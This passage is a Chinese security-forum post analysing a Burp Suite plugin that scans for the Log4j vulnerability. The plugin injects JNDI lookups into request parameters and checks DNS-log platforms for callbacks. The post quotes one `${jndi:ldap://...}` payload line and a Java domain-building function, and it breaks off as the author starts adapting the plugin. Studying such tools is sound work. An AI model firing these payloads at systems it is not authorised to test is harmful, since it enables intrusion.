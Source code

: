 [![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-401cab8d38a9301e9f1438f34db7c355b479d221.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-401cab8d38a9301e9f1438f34db7c355b479d221.jpg)

`/brup/dnslog/platform/DnslogCN.java`  
platform package中就是对具体的dnslog平台的解析，其中内置了ceye和dnslog.cn两个公开站

最主要的就三个函数

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-055d0dd4d56f84ddcbf181ed15164a7b7ccd42a0.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-055d0dd4d56f84ddcbf181ed15164a7b7ccd42a0.jpg)

其中initDomain函数就是请求dnslog.cn然后获取一个子域

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ca2ed9a5eb38b68557e94a3aa3fc67c32c2d2e3f.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ca2ed9a5eb38b68557e94a3aa3fc67c32c2d2e3f.jpg)

getNewDomain函数就是进行一个拼接，比如获取一个子域ehb52l.dnslog.cn，拼接成xxxcc.ehb52l.dnslog.cn，主要用来递归解析

CheckResult函数则是对应Refresh Recode请求获取解析结果

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3f79d8153b425a532c9db64fddb4f6a9c8ede76.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3f79d8153b425a532c9db64fddb4f6a9c8ede76.jpg)

这样就一目了然了，该插件通过被动扫描遍历每一个参数，提取出Cookie，Get，Post参数，然后有多少个就遍历多少个，每遍历一个参数值就会发送一次子域的获取，获取完后再进行数据的获取，查看是否返回数据，如果有返回数据，就可以确定某个路径下的某个参数存在log4j记录日志的行为并且触发了漏洞(dnslog平台数据和结果的同步性判断通过okhttp3的CookieJar Cookie持久化实现)

实验
==

顺序其实也是先实验遇到问题然后在分析工具改写的，这里倒过来看，稍微清晰点  
由于技术太菜，秉持着脚本小子拿来就用的风格，直接加载了该插件并且被动扫描测试了Tools上有师傅发的漏洞Web Demo，发现了问题=&gt;dnslog.cn炸了

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0e6881ee5841812c467a9bf3f4542e995479286c.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0e6881ee5841812c467a9bf3f4542e995479286c.png)

POC变成了`${jndi:ldap://1639129872920gxXTk./803533}`  
通过之前的getNewDomain函数可以看到.后面应该是rootDomain，也就是我们请求`dnslog.cn/getdomain.php`之后获取到的子域，但是这里无了，测试了好几次还是这个问题，于是去访问了下dnslog.cn平台，发现已经访问不了，直接裂开了，ceye.io也访问不了。两个公开常用的dnslog平台均失效。

```php
    public String getNewDomain() {
        return Utils.getCurrentTimeMillis() + Utils.GetRandomString(5) + "." + rootDomain;
    }
```

由于当时气氛火热，很想复现一下，并且将该插件立马用到项目上去检测，但是平台都挂了，等于枪有了，子弹空了。试试看自己能不能再解析一个新平台`https://log.xn--9tr.com/`，于是自己开始面向百度开始修改

修改
==

该平台并不像dnslog一样，Cookie持久化就可以任意取domain，任意获取results，该站点设置了Token  
请求样式如下  
获取子域:

